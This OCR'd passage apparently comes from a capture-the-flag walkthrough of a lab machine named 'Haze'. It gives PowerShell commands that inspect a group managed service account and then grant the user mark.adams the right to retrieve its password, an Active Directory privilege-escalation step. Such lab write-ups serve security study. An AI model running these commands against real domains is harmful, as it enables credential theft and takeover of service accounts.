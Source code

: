 **15.4** INFO: Check Account type of **Haze-IT-Backup\$**

**RUN loggedin on POWERSHELL:** **Get-ADServiceAccount -Identity
Haze-IT-Backup\$ \| Select-Object Name, ObjectClass**

![](images/media/image23.png){width="5.78673009623797in"
height="1.3238659230096237in"}

**15.5** INFO: Who has permission to see his password, ONLY DOMAIN
ADMINS!

**By running this command, you can see which users, groups, or computers
have the privilege to retrieve the password of the \"Haze-IT-Backup\$\"
account.**

**RUN loggedin on POWERSHELL:** **Get-ADServiceAccount -Identity
\"Haze-IT-Backup\$\" -Properties
PrincipalsAllowedToRetrieveManagedPassword**

![](images/media/image24.png){width="6.3in"
height="1.1444444444444444in"}

**15.6** INFO: Mark.adams belongs to GMSA administrator group. Try to
mod the READABLE USER

**[IMPORTANT: All commands, STEPS 15.6 & 15.7 have to be DONE FAST,
otherwise it will be switched back to DOMAIN ADMINS, see RESULT in STEP
15.5]{.mark}**

**RUN loggedin with POWERSHELL:** **Set-ADServiceAccount -Identity
\"Haze-IT-Backup\$\" -PrincipalsAllowedToRetrieveManagedPassword
\"mark.adams\"**

**RUN loggedin with POWERSHELL:** **Get-ADServiceAccount -Identity
\"Haze-IT-Backup\$\" -Properties
PrincipalsAllowedToRetrieveManagedPassword**
